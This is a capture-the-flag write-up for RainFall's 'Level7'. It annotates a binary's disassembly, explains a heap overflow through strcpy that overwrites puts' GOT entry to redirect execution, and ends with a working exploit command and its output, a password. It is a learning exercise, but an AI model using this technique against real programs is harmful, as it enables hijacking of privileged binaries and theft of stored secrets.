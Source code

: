# Level7

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   ebp
   0x08048522 <+1>:     mov    ebp,esp
   0x08048524 <+3>:     and    esp,0xfffffff0
   0x08048527 <+6>:     sub    esp,0x20                       // Allocate a 0x20 (32) bytes stack
   0x0804852a <+9>:     mov    DWORD PTR [esp],0x8            // Put the value 8 on top of the stack
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>         // Call malloc
   0x08048536 <+21>:    mov    DWORD PTR [esp+0x1c],eax       // Put the result at 0x1c on the stack
   0x0804853a <+25>:    mov    eax,DWORD PTR [esp+0x1c]       // Point to it with eax
   0x0804853e <+29>:    mov    DWORD PTR [eax],0x1            // Change the value of eax to 1
   0x08048544 <+35>:    mov    DWORD PTR [esp],0x8            // Put the value 8 on top of the stack
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>         // Call malloc
   0x08048550 <+47>:    mov    edx,eax                        // Save the result of malloc in edx
   0x08048552 <+49>:    mov    eax,DWORD PTR [esp+0x1c]       // Point to the first malloc result with eax
   0x08048556 <+53>:    mov    DWORD PTR [eax+0x4],edx        // Put the result of the second malloc 4 bytes after eax
   0x08048559 <+56>:    mov    DWORD PTR [esp],0x8            // Put the value 8 on top of the stack
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>         // Call malloc
   0x08048565 <+68>:    mov    DWORD PTR [esp+0x18],eax       // Put the result at 0x18 on the stack
   0x08048569 <+72>:    mov    eax,DWORD PTR [esp+0x18]       // Point to it with eax
   0x0804856d <+76>:    mov    DWORD PTR [eax],0x2            // Change the value of eax to 2
   0x08048573 <+82>:    mov    DWORD PTR [esp],0x8            // Put the value 8 on top of the stack
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>         // Call malloc
   0x0804857f <+94>:    mov    edx,eax                        // Save the result in edx
   0x08048581 <+96>:    mov    eax,DWORD PTR [esp+0x18]       // Put into eax the result of the 3rd malloc
   0x08048585 <+100>:   mov    DWORD PTR [eax+0x4],edx        // Put the result of the 4th malloc 4 bytes after eax
   0x08048588 <+103>:   mov    eax,DWORD PTR [ebp+0xc]        // Point to argv with eax
   0x0804858b <+106>:   add    eax,0x4                        // Add 4 bytes -> argv[1]
   0x0804858e <+109>:   mov    eax,DWORD PTR [eax]            // Get the value of argv[1]
   0x08048590 <+111>:   mov    edx,eax                        // Copy it in edx
   0x08048592 <+113>:   mov    eax,DWORD PTR [esp+0x1c]       // Point to the first malloc result with eax
   0x08048596 <+117>:   mov    eax,DWORD PTR [eax+0x4]        // Move 4 bytes further, so that's the result of the second malloc
   0x08048599 <+120>:   mov    DWORD PTR [esp+0x4],edx        // Put edx (argv[1]) as second argument in the stack
   0x0804859d <+124>:   mov    DWORD PTR [esp],eax            // Put eax as firt argument in the stack
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>         // Call strcpy
   0x080485a5 <+132>:   mov    eax,DWORD PTR [ebp+0xc]        // Point to argv with eax
   0x080485a8 <+135>:   add    eax,0x8                        // Add 8 to eax -> argv[2]
   0x080485ab <+138>:   mov    eax,DWORD PTR [eax]            // Get the value of argv[2]
   0x080485ad <+140>:   mov    edx,eax                        // Move it to edx
   0x080485af <+142>:   mov    eax,DWORD PTR [esp+0x18]       // Move what is at 0x18 on the stack in eax (3rd malloc)
   0x080485b3 <+146>:   mov    eax,DWORD PTR [eax+0x4]        // Add 4 bytes to that (4th malloc)
   0x080485b6 <+149>:   mov    DWORD PTR [esp+0x4],edx        // Put edx (argv[2]) as second argument on the stack
   0x080485ba <+153>:   mov    DWORD PTR [esp],eax            // Put eax as first argument on the stack
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>         // Call strcpy
   0x080485c2 <+161>:   mov    edx,0x80486e9                  // Move into edx the string "r"
   0x080485c7 <+166>:   mov    eax,0x80486eb                  // Move into eax the string "/home/user/level8/.pass"
   0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx        // Put edx as second argument
   0x080485d0 <+175>:   mov    DWORD PTR [esp],eax            // Put eax as first argument
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>          // Call fopen
   0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax        // Put the result of fopen as 3rd argument
   0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44       // Put 0x44 (68) as second argument 
   0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960      // Put an empty string as first argument
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>          // Call fgets
   0x080485f0 <+207>:   mov    DWORD PTR [esp],0x8048703      // Put the string "~~" as first argument
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>           // Call puts
   0x080485fc <+219>:   mov    eax,0x0                        // Reset eax to 0
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
End of assembler dump.
```

The code is already quite dense but can be summarized like this in c pseudo-code :

```c
struct data {
  int   num;
  char *buf;
};

char c[32]; // global variable

int main() {
    struct data *a = malloc(8);
    a->num = 1;
    a->buf = malloc(8);

    struct data *b = malloc(8);
    b->num = 2;
    b->buf = malloc(8);

    strcpy(a->buf, argv[1]);

    strcpy(b->buf, argv[2]);

    FILE* file = fopen("/home/user/level8/.pass", "r");

    fgets(c, 68, file);

    puts("~~");
}
```

Now let’s read the other functions :

```nasm
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     sub    esp,0x18                             // Allocate a 0x18 (24) bytes stack
   0x080484fa <+6>:     mov    DWORD PTR [esp],0x0                  // Set the first argument on stack to 0
   0x08048501 <+13>:    call   0x80483d0 <time@plt>                 // Call time
   0x08048506 <+18>:    mov    edx,0x80486e0                        // Put into edx the string "%s - %d\n"
   0x0804850b <+23>:    mov    DWORD PTR [esp+0x8],eax              // Move as 3rd argument the result of time
   0x0804850f <+27>:    mov    DWORD PTR [esp+0x4],0x8049960        // Move as second argument an empty string
   0x08048517 <+35>:    mov    DWORD PTR [esp],edx                  // Move as first argument edx
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>               // Call printf
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

The vulnerability comes from `strcpy` once again. We need to overflow the buffer(s) to call the function `m()` in some way.

`fgets`'s result is in the string located at `0x8049960`, which is also the address read by `printf` in `m()` , that should give us the password !

This time there is an instruction `ret` so maybe we can overwrite `main`'s return address to `m()`'s address.

We write into 2 allocated buffers with strcpy in 2 different structs. Each one has as value the address of its content, which means that we can change what it points to. We want to make  `b->buf` point to the GOT. Using the first `strcpy`, we will overflow the buffer to change the address of `b->buf` ! And then we will just copy the address of `m()` into it using the second `strcpy` in order to call it instead of `puts`.

- argv[1] → overflow to make `b->buf` point to GOT of puts
- argv[2] → address of `m()` that will be copied inside of `b->buf`

We allocate a size of 8 (that is actually more because of the metadata and the alignment) and then we know that the locals are at adjacent addresses, so we add 4 more bytes for int num of the second struct, and finally the second buf that we want to affect :

8 + [`malloc` additional size] + 4 = 12 + [`malloc` additional size] bytes

In the previous exercise, the additional size required by `malloc` was 8 bytes so we will try with it at first (12 + 8 = 20 bytes).

The GOT address of puts :

```bash
(gdb) print puts
$1 = {<text variable, no debug info>} 0x8048400 <puts@plt>
(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```

```bash
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1744741933
```